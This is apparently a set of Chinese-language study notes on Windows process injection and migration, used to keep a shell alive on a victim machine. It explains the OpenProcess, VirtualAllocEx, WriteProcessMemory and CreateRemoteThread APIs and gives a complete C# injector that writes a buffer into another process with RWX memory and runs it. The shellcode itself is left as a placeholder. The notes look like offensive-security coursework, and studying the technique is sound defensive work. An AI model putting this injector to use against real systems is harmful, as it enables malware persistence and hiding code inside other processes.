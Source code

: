 受害者关闭进程后 为了让shell持久化
会使用进程注入以及使用进程转移

## Process Injection and Migration Theory 

Process 进程：可以理解为一个容器container，用来执行程序。每个进程拥有自己的virtualmemory虚拟内存空间。我们可以通过一些win32 api 进行转移调用。

Threads：执行代码，一个进程可能有多个threads同时执行操作，每个threads拥有自己独立的堆栈stack，并与程序进程共享内存空间。

会用到的一些win32API
1. 打开一个不同进程间的通道。OpenProcess API
2.修改内存地址 VirtualAllocEx / WriteProcessMemory
3. 在转移的目的进程中创造一个新threads CreateRemoteThread

OpenProcess 打开不同进程之间通道
```powershell
HANDLE OpenProcess(
	DWORD	dwDesiredAccess, //访问权限
	BOOL	bInheritHandle, //子进程有没有权限访问这个handle，默认设置为false
	DWORD	dwProcesssId	//ProcessID
);
```
访问权限：
使用ProcessExplorer可以查看进程权限。
例子：打开记事本，权限为中；使用管理员权限打开，权限为高，无法做进程迁移。
explore.exe
使用OpenProcess 必须是从高权限到低权限
我们希望设置为access all，HEX值为0x001F0FFF

VirtualAllocEx 将指针定位到目标地址
```c#
LPVOID VirtualAllocEx(
	HANDLE	hProcess,			//process Handler由OpenProcess api创建
	LPVOID	lpAddress,			//buf会从这个地址开始复制，一般设置为Null，让api决定位置。
	SIZE_T	dwSize,				//0x1000 (默认)
	DWORD	flAllocationType,	//0x3000
	DWORD	flProtect			//0x40
);
```

WriteProcessMemory 将code拷贝到进程中。
```c#
BOOL WriteProcessMemory(
	HANDLE	hProcess,
	LPVOID	lpBassAddress,
	LPCVOID	lpBuffer,
	SIZE_T	nSIze,
	SIZE_T	*lpNumber0fbytesWrittend
)
```

CreateRemoteThread 创建执行Thread
```c#
HANDLE CreateRemoteThread(
	HANDLE		           	hProcess,
	LPSECURITY_ATTRIBUTES	lpThreadAttributes,
	SIZE_T					dwStackSize,
	LPTHREAD_START_ROUTINE	lpStartAddress,
	LPVOID					lpParameter,
	DWORD					dwCreationFlags,
	LPDWORD					lpThreadId
);
```

## Process Injection in C#
```c#
using System;
using System.Runtime.InteropServices;

namespace Inject
{
	class Program
	{
		[DllImport("kernel32.dll",SetLastError = true, ExactSpelling= true)]
		static extern IntPtr OpenProcess(uint processAccess, bool bInteritHandle, int ProcessId);
		
		[DllImport("kernel32.dll",SetLastError = true, ExactSpelling= true)]
		static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
		
		[DllImport("kernel32.dll")] 
		static extern bool WriteProcessMemory(IntPtr hProcess,IntPtr lpBaseAddress, byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten); 
		[DllImport("kernel32.dll")]
		static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
		
		static void Main(string[] args)
		{
			IntPtr hProcess = OpenProcess(0x001F0FFF,false,4988);
			
			IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);
			
			byte[] buf = new byte[591]{//shellcode}
			
			IntPtr outSize; 
			WriteProcessMemory(hProcess, addr, buf, buf.Length, out outSize);
			
			IntPtr hThread = CreateRemoteThread(hProcess,IntPtr.Zero,0,addr,IntPtr.Zero,0,IntPtr.Zero);
			
		}
	}
}

```

在ntdll.dll中有几个更原生的api： NtCreateSection, NtMapViewOfSection,NtUnMapViewOfSection,NtClose